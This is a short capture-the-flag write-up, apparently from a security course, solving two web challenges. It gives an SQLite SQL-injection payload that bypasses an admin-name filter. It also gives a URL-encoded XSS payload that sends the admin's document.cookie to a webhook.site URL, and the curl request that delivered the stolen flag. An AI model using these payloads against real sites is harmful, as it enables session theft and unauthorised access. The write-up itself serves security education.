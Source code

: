 ### C.3 Booster Vaccine (12 Points)

Only now is admin not allowed for the input, but since [we know the database is SQLite3, we can find that `||` is how we concatenate strings](http://atta.cked.me/home/sqlite3injectioncheatsheet). Then the payload can just be `ad'||'min';--`.

![C3](C3.png)

### C.4 aCross the Site (11 Points)

The vulnerability is clearly XSS, but only on the main webpage, not on the admin panel, so we just had to figure out to use something like [webhook](https://webhook.site/) to make the admin visit the vulnerable site to obtain the cookie, similar to [this write-up](https://medium.com/@renwa/security-fest-2019-ctf-entropian-web-write-up-f81fb11f675b). The `curl` request by the site was below and seen in `C4.png`.

The payload was `http://165.232.169.47:2777/?search=%3Cimg+src%3Dx+onerror%3Dthis.src%3D%27https%3A%2F%2Fwebhook.site%2F800d3ef2-b434-4d92-8b15-891044cda389%3Fc%3D%27%2Bdocument.cookie%3E`, and the result can be seen on [this webhook link](https://webhook.site/#!/800d3ef2-b434-4d92-8b15-891044cda389/b5b5699d-fef5-4702-81e7-edb00d0eb31a/1).

```bash
curl -X 'GET' 'https://webhook.site/800d3ef2-b434-4d92-8b15-891044cda389?c=flag%3Dcs2107%7Bn0w_y0u_s33_m3_x5S%7D'
```
